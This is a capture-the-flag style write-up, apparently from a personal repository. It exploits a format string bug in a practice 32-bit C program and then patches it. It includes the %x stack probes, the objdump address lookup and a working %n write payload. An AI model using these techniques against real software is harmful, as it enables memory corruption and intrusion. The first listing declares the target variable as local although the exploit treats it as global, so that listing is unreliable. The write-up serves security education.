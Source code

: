 Let's take a look at the code...

```
#include <stdio.h>
#include <stdlib.h>

void not_important()
	{
	int unimportant_var0 = 0;
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);

	if (unimportant_var0)
		{
			printf("Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared\n");
		}
	}

int main()
{
	not_important();
}
```

So as we can see here, it is vulnerable to the same format string bug as f0, since it prints out user defined data without formatting it properely.

```
	printf(buf0);
```

So in order to pwn this level, we will need to change the value of unimportant_var0 to something other than 0 so the if then statement will evaluate as true and we will pass the level.
Printf has a flag that will allow us to print values on to the stack, effictively rewriting part of the program. We can do this to change the value of unimportant_var0
so that it will pass the if then statement. First let's see if the program is 32 bit or 64 bit using the file command.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ file f1
f1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46c42c45a076c8cb4571bb5a54abf5ad04a11921, not stripped
``` 

So we can see that it is a 32 bit program. Secondly we will need to find where our input is stored on the stack. We can do this by giving the program input, then use a series of %x flags to print out values off of the stack untill we see our input.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ python -c 'print "eeee." + "%x."*20' | ./f1
eeee.64.f773d5a0.f0b5ff.ff826efe.1.c2.65656565.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

So we gave the program the input "eeee" (we gave it four input, because if the input is stored next to each other since it is 32 bit it will be stored in the same stack location) which is hex code for 0x65656565. We can see that hex string 7 spots down the stack (remember the eeee at the beginning doesn't count), so our input is stored 7 stack values. 
Let's confirm it by just printing out the seventh stack value.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ python -c 'print "eeee." + "%7$x"' | ./f1
eeee.65656565
```

And as you can see, we got the hex value of eeee (0x65656565) as the output so we've confimed where our input is stored on the stack. The next step is to find where the location of the int in the program, so we can write to it. We can do this using objdump since it is a global int.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ objdump -t ./f1 | grep unimportant_var0
0804a048 g     O .bss	00000004              unimportant_var0
```

So we have the address of the int, and we know where our input is stored on the stack. Now we can write a payload that will push the address of the int in little endian onto the stack, then use string format to print to to that address since it is stored on the stack in a location we know. It will print the contents of our input, which will just be the address, and it should interpret it as 4 since the address is four bytes (however we don't need to worry about what the value is now, as long as it isn't 0).

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ python -c 'print "\x48\xa0\x04\x08" + "%7$n"' | ./f1
H�
Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared
```

Just like that, we pwned the binary. Now to patch it.

```
#include <stdio.h>
#include <stdlib.h>

int unimportant_var0 = 0;
void not_important()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf("%s\n", buf0);

	if (unimportant_var0)
		{
			printf("Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared\n");
		}
	}

int main()
{
	not_important();
}
```

So we just formatted the user defined input, so it can't be interpreted as actual flags. Now let's try to exploit it.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ python -c 'print "eeee" + "%x."*20' | ./f1_secure 
eeee%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

guyinatuxedo@tux:/Hackery/escape/fmt_str/f1$ 
```

As you can see, the string format exploit no longer works. And just like that, we patched the binary.
